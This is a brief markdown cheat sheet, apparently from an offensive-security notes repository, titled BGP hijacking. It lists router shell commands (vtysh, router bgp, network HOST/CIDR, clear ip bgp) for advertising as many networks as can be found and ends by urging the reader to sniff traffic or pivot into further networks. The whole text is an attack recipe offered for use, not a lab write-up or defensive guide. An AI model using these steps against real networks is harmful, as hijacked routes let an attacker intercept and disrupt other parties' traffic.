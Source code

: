 # BORDER GATEWAY PROTOCOL HIJACKING (BGP)

### STEPS/COMMANDS:

#### 1) Run BGP config shell

    vtysh

#### 2) 

    config terminal

#### 3) 

    router bgp NUM

#### 4) You can try to route as many networks as you can find

    network HOST/CIDR

#### 5) 

    end

#### 6) 

    clear ip bgp *

#### 7) Check on the route

    show ip bgp neighbors YOUR_IP advertised-routes 

#### 8) Now you can sniff network traffic, or pivot further through more networks!
